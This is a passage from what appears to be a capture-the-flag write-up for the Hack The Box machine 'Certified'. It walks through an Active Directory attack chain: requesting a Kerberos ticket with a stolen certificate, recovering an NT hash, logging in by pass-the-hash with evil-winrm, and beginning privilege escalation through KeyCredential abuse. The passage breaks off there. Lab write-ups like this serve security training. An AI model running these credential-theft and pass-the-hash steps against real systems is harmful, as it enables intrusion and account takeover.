 ### 6. **Obtaining a TGT**

    Generated a Kerberos TGT for management_svc:

```bash
gettgtpkinit.py certified.htb/management_svc -cert-pfx /home/ghost/HTB/Maquinas/Certified/exploits/xfkTN93D.pfx -pfx-pass P5NA3JmDjY0w6OejTlRn fuck.ccache
```

If you do not get an error, continue to the next step, if you get an error, follow this:

**If you get an error it is because the minikerberos is sensitive to the time difference, therefore to resolve it and synchronize the time of your machine with that of the certified machine we execute the following**

```bash
sudo ntpdate certified.htb
```

And now you can continue to the next step.

### 7. **Recovering NT Hash**

Here we need to export the variable fuckk.cache to use the getnthash tool. To do this we do the following:

```bash
export KRB5CCNAME=/path/to/file.ccache
```

Now we can do the following

    Extracted NT hash for management_svc using `gettgtpkinit.py`:

```bash
getnthash.py certified.htb/management_svc -key 834e81cd4330a03fe83919f7###########################
```

### 8. **Logging in with Evil-WinRM**

    Logged in as management_svc with Evil-WinRM:

```bash
evil-winrm -i 10.10.11.41 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
```

And get the `user.txt` in `management_scv/Desktop`
## Root Privilege Escalation
---

### 1. **Identifying GenericAll Rights**

    Discovered that `management_svc` had GenericAll rights over `ca_operator`.

### 2. **Adding KeyCredential**

    Used `certipy-ad` to modify ca_operator KeyCredential:
